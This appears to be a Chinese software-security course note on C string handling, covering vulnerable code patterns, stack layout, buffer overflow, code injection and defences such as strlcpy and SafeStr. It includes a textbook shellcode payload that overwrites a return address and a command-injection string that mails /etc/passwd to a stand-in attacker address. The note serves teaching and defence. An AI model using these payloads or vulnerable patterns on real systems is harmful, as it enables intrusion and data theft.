

---
tags:
  - 软件安全
---
# 字符串安全
## 字符串
* 包含了终端用户和软件系统交互的大部分数据
* 字符串表示法、管理、操作可能导致软件漏洞和漏洞利用
    1. 表示
    	* C-风格字符串"hello"（以`\0`结尾）
            <figure>
    		
            <figcaption>C-风格字符串</figcaption>
            </figure>
            - 一个指向字符串的指针实际上就是指向该字符串的起始字符。
			- 字符串长度指空字符之前的字节数
			- 字符串的值则是它所包含的按顺序排列的字符序列。
			- 存储一个字符串所需要的字节数是字符串的字符数加1。(单位是每个字符的大小)
    	* C++字符串：`std:string`和`std:basic_string`，比C-风格字符串更加安全
    2. 操作

		=== "无界字符串复制"

			=== "描述"
				无界数据源 &rarr; 定长数组

			=== "C"

				```c
				int main(void) {
					char Password[80];
					puts("Enter 8 character password:");
					gets(Password);
				}
				```

			=== "C++"

				```c++
				#include <iostream.h>
				int main(void) {
					char buf[12];
					cin >> buf;
					cout << "echo: " << buf << endl;
				}
				```

				!!! check "解决方案"
					使用`cin.width()`设定宽度

		=== "复制和连接字符串"

			=== "描述"
				C语言标准`strcpy()` `strcat()`函数是无界操作，容易出错

			=== "C"
				```c
				int main(int argc, char *argv[]) {
					char name[2048];
					strcpy(name, argv[1]);
					strcat(name, " = ");
					strcat(name, argv[2]);
					...
				}
				```

				!!! check "解决方案"
					拷贝之前`strlen()`检查字符串长度，然后动态分配内存

		=== "空结尾错误"

			=== "描述"
				没有正确以`\0`结尾字符串

			=== "C"

				```c
				int main(int argc, char* argv[]) {
					char a[16];
					char b[16];
					char c[32];
					strncpy(a, "0123456789abcdef", sizeof(a));
					strncpy(b, "0123456789abcdef", sizeof(b));
					strncpy(c, a, sizeof(c));
					// (1)
				}
				```

                1. `a[]`和`b[]`都没有正确结尾

				!!! info "strncpy函数"
					`char* strncpy(char* restrict s1, const char* restrict s2, size_t n)`，从数组`S2`中复制不超过 `n` 个字符串(空字符后的字符不会被复制)到目标数组`S1*` 中。

                    * 因此，如果第一个数组S2中的前`n`个字符中不存在空字符，那么其结果字符串将不会是以空字符结尾的

		=== "字符串截断"

			=== "描述"
				目标字符数组长度不足以容纳一个字符串的内容时，容易发生字符串截断

		=== "数组写入越界"

			=== "C"

				```c
				int main(int argc, char *argv[]) {
					int i = 0;
					char buff[128];
					char *arg1 = argv[1];
					while (arg1[i] != '\0') {
						buff[i] = arg1[i];
						i++;
					}
					buff[i] = '\0';
					printf("buff = %s\n", buff);
				}
				```

				- 如果以上程序的第一个参数（`argv[1]`）的长度大于等于128，就会形成数组越界写

		=== "差一错误"

			=== "C"

				```c linenums="1" hl_lines="3 5 8"
				int main(int argc, char* argv[]) {
					char source[10];
					strcpy(source, "0123456789");   // (1)
					char *dest = (char *)malloc(strlen(source));
					for (int i=1; i <= 11; i++) {
						dest[i] = source[i];
					}
					dest[i] = '\0';      // (2)
					printf("dest = %s", dest);
				}
				```

                1. 空结尾，`source`只有10字节长
                2. 5~7行的循环后，`i`最后为12，此行越界写

		=== "不恰当的数据处理"

			=== "C"

				```c
				/* 应用程序输入一个用户的email 地址，并把地址写入缓冲区  */
				sprintf(buffer,"/bin/mail %s < /tmp/email",addr); // (1)
				/* 将要使用system()调用执行buffer中的数据 */
				```

                1. 令`addr = "bogus@addr.com; cat /etc/passwd  | mail some@badguy.net"`，风险出现（命令注入）

## 程序栈
* 栈存储以下信息：调用函数的返回地址、函数参数、局部 (临时）变量
* 栈修改：在函数调用期间、函数初始化期间、从子例程返回时
	```text
                              内存低端地址
	b() {...}                  b()栈帧     ↑
	a() {                        |
	  b();                     a()栈帧
	}                            |
	main() {                     |
	  a();                    main()栈帧
	}                         内存高端地址
	```
* 子例程创建：参数由后往前压入(比如`func(4,2)`先压入2再压入4)，把返回地址压入栈并跳到那个地址
	```asm
	void function(int arg1, int arg2) 的调用开始
	push ebp    ;存储帧指针
	mov esp,ebp ;子例程的帧指针被设置为当前栈指针
	sub esp,44h ;为局部变量分配空间
	return后
	mov esp,ebp ;恢复栈指针
	pop ebp     ;恢复帧指针
	ret         ;将返回地址从栈弹出，并把控制移交给那个位置
	```

## 字符串漏洞
* 栈（帧）粉碎
	- 帧指由函数调用引发的压入栈的数据。
	- 当缓冲区溢出覆写分配给执行栈内存中的数据时，就会导致栈粉碎
	- 成功的利用这个漏洞能够覆写栈返回地址，从而在目标机器中执行任意代码

### 缓冲区溢出
* 向为某特定数据结构分配的内存空间边界之外写入数据（边界检查不认真）
	- 修改变量
	- 修改数据指针
	- 修改函数指针
	- 修改栈返回地址

### 代码注入
- 攻击创键恶意参数。函数返回时，控制被转移至恶意代码
	* 恶意参数的特征
		1. 必须被漏洞程序作为合法输入接受。
		2. 参数，以及其他可控输入必定导致了漏洞代码路径的执行。
		3. 在控制权转移到恶意代码之前，参数不能导致程序非正常终止。
	* 恶意参数
		- 目的：控制权转移给恶意代码
			1. 可能包含在恶意参数(如本实例)中
			2. 可能在一个有效的输入操作期间注入恶意代码
			3. 恶意代码可以执行以其他任何形式编程所能执行的功能，不过它们通常只是简单地在受害机器上开一个远程
		- 被注入的代码通常叫做shell代码

- 以`root`或其他较高权限执行的程序是攻击者的目标

	!!! info "一个利用的例子：源码+利用"

        ```c
		bool IsPasswordOK(void) {
			 char Password[12];
			 gets(Password);    // (1)
			 if (!strcmp(Password,"goodpass")) return true; // (2)
			 else return false; // (3)
		}

		void main(void) {
			bool PwStatus;              // (4)
			puts("Enter Password:");
			PwStatus=IsPasswordOK();    // (5)
			if (PwStatus == false) {
				puts("Access denied");
				exit(-1);              // (6)
			}
			else puts("Access granted");
		}
		```

        1. Get input from keyboard
        2. Password Good
        3. Password Invalid
        4. Password Status
        5. Get & Check Password
        6. Terminate Program

		通过构造以下输入，攻击者可以执行任意代码

		```text
		000  31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 "1234567890123456"
		010  37 38 39 30 31 32 33 34 35 36 37 38 (E0 F9 FF BF) "789012345678a· +"
		020  31 C0 A3 FF F9 FF BF B0 0B BB 03 FA FF BF B9 FB "1+ú · +¦+· +¦v"
		030  F9 FF BF 8B 15 FF F9 FF BF CD 80 FF F9 FF BF 31 "· +ï§ · +-Ç · +1"
		040  31 31 31 2F 75 73 72 2F 62 69 6E 2F 63 61 6C 0A "111/usr/bin/cal "
		其中第一行16字节的二进制数据将填满分配的密码存储空间（gcc版本的编译器分配堆栈用于16字节的操作）
		接下来的12字节二进制数据将填充编译器分配的存储空间，以与16字节边界对齐
		接下来的四个字节（0xbffff9e0）覆盖了原函数的返回地址
		后面的几行执行了系统shell，它的功能为使用系统调用execve()打开计算器程序，具体细节如下
		xor %eax,%eax #set eax to zero  ;该利用自始至终都不能包含空字符，必须通过利用代码来设置空指针
		mov %eax,0xbffff9ff #set to NULL word  ;将参数列表末尾用空指针终结，一个系统调用参数包含空指针结束的指针列表
		mov $0xb,%al #set code for execve ;系统调用设置为0xb, 它等于Linux 中的系统调用execve
		mov 0xbffffa03,%ebx #ptr to arg 1
		mov 0xbffff9fb,%ecx #ptr to arg 2
		mov 0xbffff9ff,%edx #ptr to arg 3 ;设置三个execve()调用参数
		int $80 # make system call to execve ;execve()系统调用导致了Linux日历程序的执行
		arg 2 array pointer array
		char * []={0xbffff9ff, "1111"}; "/usr/bin/cal\0"
		```

### 弧注入
* 控制转移到已经存在于程序内存空间中的代码中
	- 可以安装一个已有函数的地址，如`system()` 或`exec()`，用于执行已存在于本地系统上的程序
* 构建若干个栈帧，连接起来，结束后返回main函数(return-to-libc)

### 防范缓冲区溢出

=== "静态方法"

	=== "输入验证"
		```c
		int myfunc(const char *arg) {
			char buff[100];
			if (strlen(arg) >= sizeof(buff)) {
			  abort();
			}
		}
		```

	=== "安全函数"

		* 使用更加安全的`strlcpy()`和`strlcat()`（因为有size参数），它们均返回它们希望创建的字符串的总长度。
		> 1. `size_t strlcpy(char *dst, const char *src, size_t size)`
		>	把从src地址开始且含有'\0'结束符的字符串复制到以dest开始的地址空间。
		> 2. `size_t strlcat(char *dst, const char *src, size_t size)`
		>	把非空结尾的字符串src 连接到dst末尾 (不超过size的字符都能够连接到dst末尾)

		* 为了检查字符串截断，程序需要验证返回值是否小于参数大小

	=== "ISO/IEC “Security” TR 24731"
		* 此版本使用了带_s版本的函数名称，即`strcpy_s()` 代替`strcpy()`，`strcat_s()`代替`strcat()`，`strncpy_s()`代替`strncpy()`，`strncat_s()`代替`strncat()`
		* 目标：不产生无结尾的字符串，不意外截断字符串，使错误显现，有一个统一的函数参数和返回类型模式
		* 如果目标缓冲区的最大长度是不被正确指定，函数仍能发生缓冲区溢出

=== "动态方法"
	* 动态分配空间
		- 动态地分配缓冲区
		- 需要动态调整额外的内存

	=== "SafeStr & XXL"
		- SafeStr库 & `safestr_t`类型，后者与`char*`兼容
		- 错误处理：XXL库

            ```c
			/* 一个使用safestr的例子 */
			safestr_t str1;
			safestr_t str2;
			XXL_TRY_BEGIN {
				str1 = safestr_alloc(12, 0);  // (1)
				str2 = safestr_create("hello, world\n", 0);
				safestr_copy(&str1, str2);  // (2)
				safestr_printf(str1);
				safestr_printf(str2);
			}
			XXL_CATCH (SAFESTR_ERROR_OUT_OF_MEMORY){  // (3)
				printf("safestr out of memory.\n");
			}
			XXL_EXCEPT {   // (4)
				printf("string operation failed.\n");
			}
			XXL_TRY_END;
			```

            1. 为字符串分配内存空间
            2. 复制字符串
            3. 捕捉内存错误
            4. 处理剩下的异常

	=== "自建数据结构"

		- `struct string_mx; typedef struct string_mx *string_m;` 不透明的数据类型
		- 利用状态码返回值
		- 使用例

            ```c
    		errno_t retValue;
    		char *cstr;  // (1)
    		string_m str1 = NULL;

    		if (retValue = strcreate_m(&str1, "hello, world")) {
    		  fprintf(stderr, "Error %d from strcreate_m.\n", retValue);
    		}
    		else { // (2)
    		  if (retValue = getstr_m(&cstr, str1)) {
    			fprintf(stderr, "error %d from getstr_m.\n", retValue);
    		  }
    		  printf("%s\n", cstr);
    		  free(cstr); // (3)
    		}
    		```

            1. c-style string
            2. print string
            3. free duplicate string

	=== "自己管理动态字符串"
		- 管理动态字符串
			* 分配缓冲区
			* 如果需要额外的内存，则重新调整内存大小
		- 管理字符串操作，以确保
			* 字符串操作没有导致缓冲区溢出
			* 数据没有丢失
			* 字符串正常终止(字符串可能是也可能不是内部空结尾)
		- 缺点
			* 无限制地消耗内存，可能导致拒绝服务攻击
			* 性能开销

* 黑名单 & 白名单
	- 黑名单：用下划线或其他无害的字符来取代危险的字符串输入
	- 白名单：定义可接受的字符列表，删除任何不可接受的字符

* 数据处理
	- 字符串管理库通过(可选)确保字符串中的所有字符属于一组预定义的“安全”字符，来提供一种处理数据的机制
		```c
		errno_t setcharset(
			string_m s,
			const string_m safeset
		);
		```
